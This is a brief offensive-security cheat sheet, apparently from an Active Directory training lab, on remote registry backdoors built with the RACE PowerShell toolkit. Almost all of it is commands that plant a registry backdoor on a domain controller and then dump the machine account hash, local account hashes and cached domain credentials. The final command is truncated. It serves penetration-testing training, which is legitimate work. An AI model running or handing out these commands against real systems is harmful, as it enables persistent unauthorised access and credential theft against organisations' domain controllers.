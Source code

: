 # Remote Registry

Remote registry changes and backdoors

{% embed url="https://github.com/samratashok/RACE" %}

```
# With admin privs on remote machine, create backdoor
Add-RemoteRegBackdoor -ComputerName dcorp-dc -Trustee student572 -Verbose

# As student572, retrieve machine account hash
Get-RemoteMachineAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve local account hash
Get-RemoteLocalAccountHash -ComputerName dcorp-dc -Verbose

# Retrieve domain cached credentials
Get-RemoteCachedCredential -ComputerName dcorp-dc -Verbos
```

